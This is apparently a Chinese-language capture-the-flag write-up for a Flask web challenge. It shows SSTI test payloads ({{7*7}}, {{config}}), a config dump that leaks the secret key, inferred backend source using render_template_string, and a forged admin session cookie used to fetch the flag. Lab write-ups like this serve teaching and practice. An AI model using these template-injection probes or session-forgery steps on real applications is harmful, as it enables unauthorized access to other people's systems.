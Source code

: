 - 打开链接，查看页面信息

```
Only the admin can get the flag,flag in /flag

you name is None
```

- 传入` name=admin `，并没有什么卵用

- 发现是flask框架的，于是传入` name={{7*7}} `和` name={{7*'7'}} `，回显内容符合ssti的标准，但是打paylaod的时候发现都不能用，查看{{config}}，获得一些参数` DEBUG `和` SECRET_KEY `

``` python
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': True, 'SECRET_KEY': 'woshicaiji', 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>
```

---

- 通过因为debug是开着的，所以通过传入错误的参数，可以查看部分源码，推测出的后台源码

``` python
from flask import Flask, request,url_for
from jinja2 import Template

app = Flask(__name__)
app.config['SECRET_KEY']='woshicaiji'

@app.route("/")
def index():
    name = request.args.get('name')
	if name and len(name)>10:
		return render_template_string("no")
	template = '''
<p>Only the admin can get the flag,flag in /flag</p>
<p>you name is {0}</p>
'''.format(name)
​	return render_template_string(template)
```

- ` len(name)>10 ` 限制了长度，所以不可能是ssti了
- 注意到题目中的` Only the admin can get the flag,flag in /flag `，但是经过测试发现，应该是在` ./flag `的
- 查看session后大发现，可以利用前面的` SECRET_KEY `进行session伪造
- github上找个轮子，运行后构造username为admin的session，
``` 
eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.XjfIcQ.Rzpeoz8dtbUfY0J2b8TahzNVEHA
```

- 访问` ./flag `，即可得到flag

---
